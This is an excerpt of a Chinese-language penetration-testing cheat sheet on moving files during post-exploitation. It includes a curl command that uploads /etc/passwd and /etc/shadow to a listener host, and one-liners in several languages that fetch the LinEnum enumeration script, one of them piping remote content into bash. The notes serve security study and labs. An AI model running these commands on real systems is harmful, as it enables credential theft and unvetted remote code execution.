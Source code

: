 ### 5. SSH 下载

> 详见 SSH 服务篇 --> [跳转链接](../网络&系统/端口&协议/ssh.md#2.-scp-kua-ji-yuan-cheng-kao-bei)

### 6. 网页上传

```shell
# 创建自签名证书
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# 启动 WEB 服务器
python3 -m uploadserver 443 --server-certificate /root/server.pem

# 上传多个文件
# --insecure 是因为我们使用了我们信任的自签名证书
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### 7. 各种 WEB 服务器

```shell
# Python3
python3 -m http.server
# Python2.7
python2.7 -m SimpleHTTPServer
# PHP 创建 Web 服务器
php -S 0.0.0.0:8000
# Ruby 创建 Web 服务器
ruby -run -ehttpd . -p8000
```



## 三、使用代码传输文件

### 1. 下载

```shell
# Python2
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
# Python3
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

# PHP 使用 File_get_contents() 下载 
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

# Ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

# Perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'

```